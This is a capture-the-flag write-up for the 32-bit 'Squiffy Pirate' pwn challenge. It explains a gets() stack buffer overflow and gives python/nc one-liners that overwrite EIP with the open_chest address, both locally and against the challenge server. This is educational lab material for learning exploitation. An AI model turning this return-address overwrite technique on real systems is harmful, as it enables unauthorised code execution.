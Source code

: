 # Squiffy Pirate
>Author: Nic#4234

This is meant to be a very simple pwn challenge with all protections disabled.

We can check the binary and its protections with `file` and `checksec`:
```sh
$ file squiffy-pirate
squiffy-pirate: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=b3819600171dc3571489f279d68a3c32ff43692b, for GNU/Linux 3.2.0, not stripped

$ checksec squiffy-pirate
[*] '~/squiffy-pirate'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

To solve this challenge, simply overflow the [buffer](../squiffy-pirate.c#L13) by sending 32 arbitrary bytes followed by the address of the function `open_chest` represented in Little Endian (LSB), which will overwrite the programs return instruction pointer (EIP, since this is a 32-bit executable). The address can be found by running `$ nm squiffy-pirate | grep chest` -> `080491b2`)

This is possible since the program is using the vulnerable function `gets()` which attempts to store everything we input into the specified buffer, without checking the size of the buffer. This allows program internals to be overwritten:

```sh
# Local:
python2 -c 'print "A" * 32 + "\xb2\x91\x04\x08"' | ./squiffy-pirate

# Remote:
python2 -c 'print "A" * 32 + "\xb2\x91\x04\x08"' | nc squiffypirate.tghack.no 1337
```

Alternatively the challenge can be solved with pwntools (see `exploit.py`).

Congratulations! You solved the challenge.
